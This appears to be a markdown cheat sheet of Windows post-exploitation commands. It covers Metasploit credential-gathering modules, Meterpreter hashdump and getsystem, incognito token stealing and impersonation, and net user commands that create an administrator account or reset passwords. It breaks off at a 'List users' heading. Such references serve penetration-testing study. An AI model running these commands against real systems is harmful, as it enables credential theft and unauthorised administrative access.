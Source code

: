 ### Metasploit

```text
post/windows/gather/credentials/gpp
post/windows/gather/enum_unattend
```

```text
getsystem
getprivs
use priv
hashdump
```

### Metasploit incognito

[https://www.offensive-security.com/metasploit-unleashed/fun-incognito/](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/)

```text
use incognito
list_tokens -u
list_tokens -g
impersonate_token DOMAIN_NAME\\USERNAME
steal_token PID
drop_token
rev2self
```

### Useful commands

#### Add a new user

```text
net user test 1234 /add
net localgroup administrators test /add
```

#### Print files contents:

```text
type file
```

#### Remove file

```text
del /f file
```

#### Change password for user:

```text
net user <user> <password>
```

#### List users:
